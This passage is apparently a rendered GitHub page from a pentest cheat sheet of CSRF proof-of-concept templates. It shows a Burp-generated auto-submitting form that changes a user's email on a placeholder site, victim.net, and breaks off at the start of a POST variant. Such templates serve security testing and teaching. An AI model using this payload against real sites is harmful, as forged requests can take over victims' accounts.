 <h3 dir="auto"><a id="user-content-form-get-request" class="anchor" aria-hidden="true" href="#form-get-request"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z"></path></svg></a>Form GET request</h3>
<div class="snippet-clipboard-content position-relative overflow-auto"><pre lang="markup"><code>&lt;html&gt;
  &lt;!-- CSRF PoC - generated by Burp Suite Professional --&gt;
  &lt;body&gt;
  &lt;script&gt;history.pushState('', '', '/')&lt;/script&gt;
    &lt;form method="GET" action="https://victim.net/email/change-email"&gt;
      &lt;input type="hidden" name="email" value="some@email.com" /&gt;
      &lt;input type="submit" value="Submit request" /&gt;
    &lt;/form&gt;
    &lt;script&gt;
      document.forms[0].submit();
    &lt;/script&gt;
  &lt;/body&gt;
&lt;/html&gt;
</code></pre><div class="zeroclipboard-container position-absolute right-0 top-0">
    <clipboard-copy aria-label="Copy" class="ClipboardButton btn js-clipboard-copy m-2 p-0 tooltipped-no-delay" data-copy-feedback="Copied!" data-tooltip-direction="w" value="<html>
  
  <body>
  <script>history.pushState('', '', '/')</script>
    <form method=&quot;GET&quot; action=&quot;https://victim.net/email/change-email&quot;>
      <input type=&quot;hidden&quot; name=&quot;email&quot; value=&quot;some@email.com&quot; />
      <input type=&quot;submit&quot; value=&quot;Submit request&quot; />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
" tabindex="0" role="button">
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-copy js-clipboard-copy-icon m-2">
    <path fill-rule="evenodd" d="M0 6.75C0 5.784.784 5 1.75 5h1.5a.75.75 0 010 1.5h-1.5a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-1.5a.75.75 0 011.5 0v1.5A1.75 1.75 0 019.25 16h-7.5A1.75 1.75 0 010 14.25v-7.5z"></path><path fill-rule="evenodd" d="M5 1.75C5 .784 5.784 0 6.75 0h7.5C15.216 0 16 .784 16 1.75v7.5A1.75 1.75 0 0114.25 11h-7.5A1.75 1.75 0 015 9.25v-7.5zm1.75-.25a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-7.5a.25.25 0 00-.25-.25h-7.5z"></path>
</svg>
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-check js-clipboard-check-icon color-text-success d-none m-2">
    <path fill-rule="evenodd" d="M13.78 4.22a.75.75 0 010 1.06l-7.25 7.25a.75.75 0 01-1.06 0L2.22 9.28a.75.75 0 011.06-1.06L6 10.94l6.72-6.72a.75.75 0 011.06 0z"></path>
</svg>
    </clipboard-copy>
  </div></div>
<h3 dir="auto"><a id="user-content-form-post-request" class="anchor" aria-hidden="true" href="#form-post-request"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z"></path></svg></a>Form POST request</h3>
<div class="snippet-clipboard-content position-relative overflow-auto"><pre lang="markup"><code>&lt;html&gt;
  &lt;body&gt;
  &lt;script&gt;history.pushState('', '', '/')&lt;/script&gt;